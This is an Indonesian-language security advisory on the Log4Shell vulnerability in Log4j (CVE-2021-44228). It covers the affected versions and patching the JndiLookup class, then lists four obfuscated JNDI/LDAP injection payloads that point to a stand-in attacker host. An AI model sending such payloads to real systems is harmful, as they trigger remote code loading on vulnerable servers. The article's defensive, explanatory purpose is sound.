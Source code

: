 ![thumbBanner](https://github.com/CSIRT-UMM/cysec-article/blob/main/28012022%20-%20Log4J/log4jThumb.png)
# Kerentanan <i>Zero-Day</i> Apache Java Logging Library LOG4J (CVE-2021-44228)

Log4J, mengalami kerentanan Log4Shell yang sedang memengaruhi banyak komputer. Perangkat lunak ini dibuat untuk merekam segala macam kegiatan yang berlangsung di berbagai sistem komputer, dengan memanfaatkan Java.
Log4Shell bekerja dengan cara menyalahgunakan fitur di Log4j yang memungkinkan pengguna untuk memasukkan kode khusus untuk memformat pesan log. Fitur ini memungkinkan Log4j untuk data-data server.
<br>Versi dari Log4j yang terdampak oleh kerentanan ini adalah komputer yang menjalankan Log4j versi >=2.0 dan <=2.14.1.

---
## Cara Memitigasi Kerentanan
Ganti kelas `org.apache.logging.log4j.core.lookup.JndiLookup` ke versi yang telah diperbaiki, sehingga classloader dapat menggunakan kelas pengganti ketimbang versi kelas yang rentan, atau dengan mengunduh patch JndiLookup dan menambalnya melalui java agent.

---

## Berikut adalah contoh-contoh exploit yang biasa digunakan untuk melakukan serangan
`${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//somesitehackerofhell.com/z}`<br>
`${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://somesitehackerofhell.com/z}`<br>
`${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://somesitehackerofhell.com/z}`<br>
`${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://somesitehackerofhell.com/z}`<br>
dsb.

---
Sources:<br>
https://github.com/Puliczek/CVE-2021-44228-PoC-log4j-bypass-words/blob/main/README.md<br>
https://www.lunasec.io/docs/blog/log4j-zero-day/<br>
https://github.com/Glavo/log4j-patch<br>
